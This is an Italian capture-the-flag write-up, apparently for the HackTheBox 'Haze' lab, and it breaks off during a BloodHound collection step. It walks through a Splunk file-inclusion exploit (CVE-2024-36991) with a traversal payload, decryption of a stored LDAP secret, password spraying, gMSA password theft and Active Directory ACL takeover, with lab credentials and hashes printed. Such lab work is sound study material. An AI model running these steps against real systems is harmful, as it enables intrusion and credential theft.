# **Haze**



## **Reconnaossance**
Si esegue una scansione delle porte TCP aperte della macchina target.
```bash
$ nmap -p- --min-rate 1000 10.129.232.50 --open
```
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
8000/tcp  open  http-alt
8088/tcp  open  radan-http
8089/tcp  open  unknown
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49674/tcp open  unknown
51713/tcp open  unknown
56196/tcp open  unknown
56197/tcp open  unknown
56201/tcp open  unknown
56217/tcp open  unknown
56228/tcp open  unknown
56247/tcp open  unknown
```

Con un'ulteriore scansione si raccolgono informazioni sui servizi espsoti.
```bash
$ nmap -p53,88,135,139,389,445,464,593,636,5985,8000,8088,8089,9389 -sCV 10.129.232.50
```
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-11 18:43:37Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8000/tcp open  http          Splunkd httpd
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
8088/tcp open  ssl/http      Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
|_http-server-header: Splunkd
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
|_http-server-header: Splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Si ha a che fare con un dominio Active Directory **haze.htb**, dato che i servizi espsoti sono:
- DNS sulla porta 53/tcp
- Kerberos sulla porta 88/tcp e Kerberos Change Password sulla porta 464/tcp
- LDAP sulla porta 389/tcp e LDAPS sulla porta 636/tcp
- RPC sulla porta 135/tcp, RPC over HTTP 1.0 sulla porta 139/tcp
- WinRM sulla porta 5985/tcp
- Splunkd sulla porta 8000/tcp, 8088/tcp e 8089/tcp

Si aggiorna il file /etc/hosts aggiungendo un record per associare l'indirizzo IP della macchina con hostname, domain controller e domain.
```
10.129.232.50 DC01 DC01.haze.htb haze.htb
```

## **Information Gathering**

### SMB
Si tenta l'accesso con SMB usando l'account guest.
```bash
$ nxc smb haze.htb -u guest -p ''
```
```
SMB         10.129.232.50   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.129.232.50   445    DC01             [-] haze.htb\guest: STATUS_ACCOUNT_DISABLED
```

Si tenta l'accesso con SMB usando l'account anonimo.
```bash
$ nxc smb haze.htb -u '' -p ''
```
```
SMB         10.129.232.50   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.129.232.50   445    DC01             [+] haze.htb\:
```

Si sono enumerate shares e users con l'acccount anonimo ma non si ottengono informazioni sul dominio.

### Splunk
Da browser si interagisce con Splunk visitando l'URL **http://haze.htb:8000**.


Splunk è uno strumento per la gestione dei logs e l'analisi dei dati.

Per quanto riguarda le porte:
- Splunk web port sulla porta 8000/tcp
- Splunk management sulla porta 8089/tcp
- Splunk event collector sulla porta 8088/tcp

Si visita **https://haze.htb:8089**.



In cui si specifica la versione di Splunk, **9.2.1**.

## **CVE-2024-36991**
Le versioni di Splunk <9.2.2, 9,1.5 e la 9.0.10 sono vulnerabili ad attacchi di tipo **file inclusion**.

Questa vulnerabilità deriva da un difetto della funzione Python os.path.join che, impropriamente, gestisce i token rimuovendo solo il nome dell'unità (ad esempio "C:").

Payload:
```
/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd
```

Si utilizza la PoC di **/bigb0x/CVE-2024-36991**.

```bash
$ python3 CVE-2024-36991/CVE-2024-36991.py -u http://haze.htb:8000
```
```
  ______     _______     ____   ___ ____  _  _        _____  __   ___   ___  _ 
 / ___\ \   / | ____|   |___ \ / _ |___ \| || |      |___ / / /_ / _ \ / _ \/ |
| |    \ \ / /|  _| _____ __) | | | |__) | || |_ _____ |_ \| '_ | (_) | (_) | |
| |___  \ V / | |__|_____/ __/| |_| / __/|__   _|________) | (_) \__, |\__, | |
 \____|  \_/  |_____|   |_____|\___|_____|  |_|      |____/ \___/  /_/   /_/|_|
                                                                           
-> POC CVE-2024-36991. This exploit will attempt to read Splunk /etc/passwd file. 
-> By x.com/MohamedNab1l
-> Use Wisely.

[INFO] Testing single target: http://haze.htb:8000
[VLUN] Vulnerable: http://haze.htb:8000
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```

Le password sono protette con SHA512. Si tenta il cracking delle credenziali:
```bash
$ hashcat -a 0 -m 1800 splunk.hash /usr/share/wordlists/rockyou.txt.gz
```

Gli hash non sono crackabili, quindi si cercando altre informazioni.

Dalla documentazione di Splunk si individua la cartella delle configurazioni globali **$SPLUNK_HOME/etc/system/local/** e il file di configurazione per l'autenticazione **authentication.conf**.




Si modifica lo script per accedere al contenuto del file.





Si ottengono le credenziali LDAP per l'account **Paul Taylor**.

La password è cifrata con AES256-GCM e si usa PBKDF2 per derivare una chiave di cifratura dal contenuto del file **splunk.secret**.

Il file splunk.secret si trova nella cartella **$SPLUNK_HOME/etc/auth/**.




Si utilizza il repository **/HurricaneLabs/splunksecrets** [https://github.com/HurricaneLabs/splunksecrets](https://github.com/HurricaneLabs/splunksecrets) per decifrare la password.

```bash
$ splunksecrets splunk-decrypt --ciphertext '$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=' --splunk-secret splunk.secret 
```
```
Ld@p_Auth_Sp1unk@2k24
```

Si verificano le credenziali **paul.taylor:Ld@p_Auth_Sp1unk@2k24**:
```bash
$ nxc ldap haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' 
```
```
LDAP        10.129.232.50   389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.129.232.50   389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
```

## **Information Gathering as paul.taylor**
Si raccolgono informazioni sul dominio haze.htb con l'account Paul Taylor.
```bash
$ nxc ldap haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --query '(&(objectClass=person)(objectClass=user))' 'cn'
```
```
LDAP        10.129.232.50   389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.129.232.50   389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.232.50   389    DC01             [+] Response for object: CN=DC01,OU=Domain Controllers,DC=haze,DC=htb
LDAP        10.129.232.50   389    DC01             cn                   DC01
LDAP        10.129.232.50   389    DC01             [+] Response for object: CN=Paul Taylor,OU=Restricted Users,DC=haze,DC=htb
LDAP        10.129.232.50   389    DC01             cn                   Paul Taylor
LDAP        10.129.232.50   389    DC01             [+] Response for object: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
LDAP        10.129.232.50   389    DC01             cn                   Haze-IT-Backup
```

L'account Paul Taylor appartiene all'OU **Restricted Users**. Si ottengono altre informazioni tramite LDAP:
```bash
$ nxc ldap haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --query '(cn=Paul Taylor)' '' 
```
```
LDAP        10.129.232.50   389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.129.232.50   389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.232.50   389    DC01             [+] Response for object: CN=Paul Taylor,OU=Restricted Users,DC=haze,DC=htb
LDAP        10.129.232.50   389    DC01             objectClass          top
LDAP        10.129.232.50   389    DC01                                  person
LDAP        10.129.232.50   389    DC01                                  organizationalPerson
LDAP        10.129.232.50   389    DC01                                  user
LDAP        10.129.232.50   389    DC01             cn                   Paul Taylor
LDAP        10.129.232.50   389    DC01             distinguishedName    CN=Paul Taylor,OU=Restricted Users,DC=haze,DC=htb
LDAP        10.129.232.50   389    DC01             instanceType         4
LDAP        10.129.232.50   389    DC01             whenCreated          20250305071953.0Z
LDAP        10.129.232.50   389    DC01             whenChanged          20251112001601.0Z
LDAP        10.129.232.50   389    DC01             uSNCreated           12868
LDAP        10.129.232.50   389    DC01             memberOf             CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
LDAP        10.129.232.50   389    DC01             uSNChanged           140774
LDAP        10.129.232.50   389    DC01             name                 Paul Taylor
LDAP        10.129.232.50   389    DC01             objectGUID           1bb1d507-2e44-d44d-88a0-808288a2c15d
LDAP        10.129.232.50   389    DC01             userAccountControl   66048
LDAP        10.129.232.50   389    DC01             badPwdCount          0
LDAP        10.129.232.50   389    DC01             codePage             0
LDAP        10.129.232.50   389    DC01             countryCode          0
LDAP        10.129.232.50   389    DC01             badPasswordTime      0
LDAP        10.129.232.50   389    DC01             lastLogoff           0
LDAP        10.129.232.50   389    DC01             lastLogon            0
LDAP        10.129.232.50   389    DC01             pwdLastSet           134073801617839637
LDAP        10.129.232.50   389    DC01             primaryGroupID       513
LDAP        10.129.232.50   389    DC01             objectSid            S-1-5-21-323145914-28650650-2368316563-1103
LDAP        10.129.232.50   389    DC01             accountExpires       9223372036854775807
LDAP        10.129.232.50   389    DC01             logonCount           0
LDAP        10.129.232.50   389    DC01             sAMAccountName       paul.taylor
LDAP        10.129.232.50   389    DC01             sAMAccountType       805306368
LDAP        10.129.232.50   389    DC01             userPrincipalName    paul.taylor@haze.htb
LDAP        10.129.232.50   389    DC01             objectCategory       CN=Person,CN=Schema,CN=Configuration,DC=haze,DC=htb
LDAP        10.129.232.50   389    DC01             dSCorePropagationData 20250305080730.0Z
LDAP        10.129.232.50   389    DC01                                  20250305080454.0Z
LDAP        10.129.232.50   389    DC01                                  20250305072226.0Z
LDAP        10.129.232.50   389    DC01                                  16010101000000.0Z
LDAP        10.129.232.50   389    DC01             lastLogonTimestamp   134073761701901985
```

Paul Taylor è parte del gruppo **Splunk_LDAP_Auth**. 

### Brute force SID enumeration via SMB
```bash
$ nxc smb haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute 
```
```
SMB         10.129.232.50   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.129.232.50   445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.129.232.50   445    DC01             498: HAZE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.232.50   445    DC01             500: HAZE\Administrator (SidTypeUser)
SMB         10.129.232.50   445    DC01             501: HAZE\Guest (SidTypeUser)
SMB         10.129.232.50   445    DC01             502: HAZE\krbtgt (SidTypeUser)
SMB         10.129.232.50   445    DC01             512: HAZE\Domain Admins (SidTypeGroup)
SMB         10.129.232.50   445    DC01             513: HAZE\Domain Users (SidTypeGroup)
SMB         10.129.232.50   445    DC01             514: HAZE\Domain Guests (SidTypeGroup)
SMB         10.129.232.50   445    DC01             515: HAZE\Domain Computers (SidTypeGroup)
SMB         10.129.232.50   445    DC01             516: HAZE\Domain Controllers (SidTypeGroup)
SMB         10.129.232.50   445    DC01             517: HAZE\Cert Publishers (SidTypeAlias)
SMB         10.129.232.50   445    DC01             518: HAZE\Schema Admins (SidTypeGroup)
SMB         10.129.232.50   445    DC01             519: HAZE\Enterprise Admins (SidTypeGroup)
SMB         10.129.232.50   445    DC01             520: HAZE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.232.50   445    DC01             521: HAZE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.232.50   445    DC01             522: HAZE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.232.50   445    DC01             525: HAZE\Protected Users (SidTypeGroup)
SMB         10.129.232.50   445    DC01             526: HAZE\Key Admins (SidTypeGroup)
SMB         10.129.232.50   445    DC01             527: HAZE\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.232.50   445    DC01             553: HAZE\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.232.50   445    DC01             571: HAZE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.232.50   445    DC01             572: HAZE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.232.50   445    DC01             1000: HAZE\DC01$ (SidTypeUser)
SMB         10.129.232.50   445    DC01             1101: HAZE\DnsAdmins (SidTypeAlias)
SMB         10.129.232.50   445    DC01             1102: HAZE\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.232.50   445    DC01             1103: HAZE\paul.taylor (SidTypeUser)
SMB         10.129.232.50   445    DC01             1104: HAZE\mark.adams (SidTypeUser)
SMB         10.129.232.50   445    DC01             1105: HAZE\edward.martin (SidTypeUser)
SMB         10.129.232.50   445    DC01             1106: HAZE\alexander.green (SidTypeUser)
SMB         10.129.232.50   445    DC01             1107: HAZE\gMSA_Managers (SidTypeGroup)
SMB         10.129.232.50   445    DC01             1108: HAZE\Splunk_Admins (SidTypeGroup)
SMB         10.129.232.50   445    DC01             1109: HAZE\Backup_Reviewers (SidTypeGroup)
SMB         10.129.232.50   445    DC01             1110: HAZE\Splunk_LDAP_Auth (SidTypeGroup)
SMB         10.129.232.50   445    DC01             1111: HAZE\Haze-IT-Backup$ (SidTypeUser)
SMB         10.129.232.50   445    DC01             1112: HAZE\Support_Services (SidTypeGroup)
```

Si identificano altri account:
- mark.adams
- edward.martin
- alexander.green

### Password Spraying Attack
Si utilizzano gli account ricavati e la password di paul.taylor:
```bash
$ nxc smb haze.htb -u mark.adams edward.martin alexander.green -p 'Ld@p_Auth_Sp1unk@2k24' 
```
```
SMB         10.129.232.50   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.129.232.50   445    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
```

Si ottengono le credenziali **mark.adams:Ld@p_Auth_Sp1unk@2k24**.

## **Information Gathering as mark.adams**

### SMB
Si enumerano le shares.
```bash
$ nxc smb haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --shares
```
```
SMB         10.129.232.50   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.129.232.50   445    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
SMB         10.129.232.50   445    DC01             [*] Enumerated shares
SMB         10.129.232.50   445    DC01             Share           Permissions     Remark
SMB         10.129.232.50   445    DC01             -----           -----------     ------
SMB         10.129.232.50   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.232.50   445    DC01             C$                              Default share
SMB         10.129.232.50   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.232.50   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.232.50   445    DC01             SYSVOL          READ            Logon server share
```

### BloodHound
Si collezionano informazioni sul dominio haze.htb.
```bash
$ bloodhound-python -d haze.htb -ns 10.129.232.50 -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -k -c all --zip
```

Si utilizza BloodHound per analizzare il dominio AD.


L'utente mark.adams è membro del gruppo **Remote Management Users**, quindi si può accedere con WinRM.

### WinRM

```bash
$ evil-winrm -i haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24'
```


## **Shell as mark.adams**
Si elencano informazioni sull'utente, i gruppi e i privilegi.


Il gruppo **gMSA_Managers** fa riferimento al **Group Managed Service Account (gMSA)** utilizzato per la gestione degli account in AD.


Si elencano i **service account** in AD.


Si ispezionano i permessi sull'oggetto **Haze-IT-Backup**.


Tra i tanti sono di interesse i privilegi di lettura e scrittura degli attributi con **HAZE\gMSA_Managers**.
```
ActiveDirectoryRights : ReadProperty, GenericExecute
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : HAZE\gMSA_Managers
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : WriteProperty
InheritanceType       : None
ObjectType            : 888eedd6-ce04-df40-b462-b8a50e41ba38
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : HAZE\gMSA_Managers
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

Si concede a mark.adams il privilegio di accedere alla gMSA password.



Si ottiene la gMSA password con una query LDAP.

```bash
$ nxc ldap haze.htb -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa 
```
```
LDAP        10.129.58.53    389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       10.129.58.53    636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAPS       10.129.58.53    636    DC01             [*] Getting GMSA Passwords
LDAPS       10.129.58.53    636    DC01             Account: Haze-IT-Backup$      NTLM: cbdee8fc0e469b3a6bbafda64a73214e     PrincipalsAllowedToReadPassword: mark.adams
```

## **Authentication as Haze-IT-Backup$**

```bash
$ nxc smb DC01.haze.htb -u 'Haze-IT-Backup$' -H 'cbdee8fc0e469b3a6bbafda64a73214e' -k
```
```
SMB         DC01.haze.htb   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         DC01.haze.htb   445    DC01             [+] haze.htb\Haze-IT-Backup$:cbdee8fc0e469b3a6bbafda64a73214e  
```

```bash
$ nxc ldap DC01.haze.htb -u 'Haze-IT-Backup$' -H 'cbdee8fc0e469b3a6bbafda64a73214e' -k
```
```
LDAP        DC01.haze.htb   389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        DC01.haze.htb   389    DC01             [+] haze.htb\Haze-IT-Backup$:cbdee8fc0e469b3a6bbafda64a73214e
```



### WriteOwner
Si richiede un TGT per **Haze-IT-Backup$**.
```bash
$ impacket-getTGT 'haze.htb'/'Haze-IT-Backup$' -hashes :'cbdee8fc0e469b3a6bbafda64a73214e' 
```
```
[*] Saving ticket in Haze-IT-Backup$.ccache
```

Haze-IT-Backup$ diventa proprietario del gruppo **Support_Services**.
```bash
$ KRB5CCNAME=${PWD}/'Haze-IT-Backup$.ccache' bloodyAD --host DC01.haze.htb -d haze.htb -k set owner 'Support_Services' 'Haze-IT-Backup$'
```
```
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on Support_Services
```

### GenericAll
Haze-IT-Backup$ ottiene i privilegi GenericAll su Support_Services**.
```bash
$ KRB5CCNAME=${PWD}/'Haze-IT-Backup$.ccache' bloodyAD --host DC01.haze.htb -d haze.htb -k add genericAll 'Support_Services' 'Haze-IT-Backup$' 
```
```
[+] Haze-IT-Backup$ has now GenericAll on Support_Services
```

Si raccolgono informazioni con l'account Haze-IT-Backup$.
```bash
$ KRB5CCNAME=${PWD}/'Haze-IT-Backup$.ccache' bloodhound-python -d haze.htb -ns 10.129.58.53 -u 'Haze-IT-Backup$' -no-pass -k -c all --zip
```
```
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: haze.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc01.haze.htb
